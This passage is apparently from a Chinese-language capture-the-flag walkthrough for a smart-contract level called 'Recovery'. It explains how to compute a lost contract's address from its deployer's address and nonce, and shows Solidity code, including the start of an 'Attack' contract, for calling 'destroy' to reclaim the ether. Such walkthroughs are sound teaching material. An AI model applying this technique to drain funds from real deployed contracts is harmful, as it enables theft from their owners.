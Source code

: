-   `sender_address`: 创建合约的账户地址。在本例中，是 `Recovery` 合约的地址。
-   `nonce`: 创建者账户的 `nonce`。对于EOA，`nonce` 是其发送的交易数量。对于合约，`nonce` 是它创建的合约数量。由于 `Recovery` 合约是第一次创建 `SimpleToken`，所以它的 `nonce` 是1。
-   `rlp([...])`: 对发送者地址和 `nonce` 进行RLP（Recursive-Length Prefix）编码。

### RLP 编码

RLP编码规则比较复杂，但对于 `[address, nonce]` 这种列表，我们可以简化其在Solidity中的构造：

`abi.encodePacked(byte(0xd6), byte(0x94), sender_address, byte(0x01))`

-   `0xd6`: RLP前缀，表示一个长度在0-55字节之间的列表（list）。
-   `0x94`: RLP前缀，表示一个20字节的字符串（string），即地址。
-   `sender_address`: 20字节的部署者地址。
-   `0x01`: `nonce` 为1的RLP编码。

将这些部分打包并进行 `keccak256` 哈希，然后取结果的后20字节，就是我们丢失的合约地址。

### 在Solidity中计算地址

我们可以编写一个简单的函数来执行这个计算：

```solidity
function calculateAddress(address _deployerAddress) public pure returns (address) {
    uint nonce = 1; // 这是 _deployerAddress 创建的第一个合约
    return address(
        uint160(
            uint256(
                keccak256(
                    abi.encodePacked(
                        bytes1(0xd6),
                        bytes1(0x94),
                        _deployerAddress,
                        bytes1(nonce)
                    )
                )
            )
        )
    );
}
```

一旦我们计算出 `SimpleToken` 的地址，我们就可以调用它的 `destroy` 函数来取回以太币。

## 💻 Foundry 实现

### 攻击合约/逻辑

我们可以创建一个 `Attack` 合约，其中包含一个函数来为我们计算丢失的合约地址。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    function calculate(address _deployerAddress) public pure returns (address) {
        // nonce 是 1，因为这是 _deployerAddress 创建的第一个合约
        bytes1 nonce = bytes1(0x01);

        address lostContractAddress = address(
            uint160(
                uint256(
                    keccak256(
                        abi.encodePacked(
                            bytes1(0xd6),       // RLP prefix for a list
                            bytes1(0x94),       // RLP prefix for a 20-byte string
                            _deployerAddress,   // The deployer's address
```